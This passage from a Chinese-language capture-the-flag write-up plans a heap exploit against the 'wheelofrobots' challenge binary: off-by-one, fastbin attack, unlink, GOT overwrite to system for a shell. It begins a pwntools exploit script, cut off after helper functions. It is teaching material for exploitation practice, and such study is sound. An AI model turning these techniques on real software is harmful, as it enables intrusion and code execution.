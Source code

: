 綜上分析，我們可以知道的是，該程序主要存在的漏洞 off-by-one 與整數溢出。這裏我們主要使用前面的off-by-one 漏洞。

### 利用思路

基本利用思路如下

1. 利用 off by one 漏洞與 fastbin attack 分配 chunk 到 0x603138，進而可以控制 `destructor_size `的大小，從而實現任意長度堆溢出。這裏我們將輪子1 tinny 分配到這裏。
2. 分別分配合適大小的物理相鄰的 chunk，其中包括 destructor。藉助上面可以任意長度堆溢出的漏洞，對 destructor 對應的 chunk 進行溢出，將其溢出到下一個物理相鄰的 chunk，從而實現對 0x6030E8 處 fake chunk 進行 unlink 的效果，這時 bss 段的 destructor 指向 0x6030D0。從而，我們可以再次實現覆蓋bss 段幾乎所有的內容。
3. 構造一個任意地址寫的漏洞。通過上述的漏洞將已經分配的輪子1 tinny 指針覆蓋爲 destructor 的地址，那麼此後編輯 tinny 即在編輯 destructor 的內容，進而當我們再次編輯 destructor 時就相當於任意低地址寫。
4. 由於程序只是在最後啓動機器人的時候，纔會隨機輸出一些輪子的內容，並且一旦輸出，程序就會退出，由於這部分我們並不能控制，所以我們將 `exit()` patch 爲一個 `ret` 地址。這樣的話，我們就可以多次輸出內容了，從而可以泄漏一些 got 表地址。**其實，既然我們有了任意地址寫的漏洞，我們也可以將某個 got 寫爲 puts 的 plt 地址，進而調用相應函數時便可以直接將相應內容輸出。但是這裏並不去採用這種方法，因爲之前已經在 hitcon stkof 中用過這種手法了。**
5. 在泄漏了相應的內容後，我們便可以得到 libc 基地址，system 地址，libc中的 /bin/sh 地址。進而我們修改 free@got 爲 system 地址。從而當再次釋放某塊內存時，便可以啓動shell。

代碼如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
```
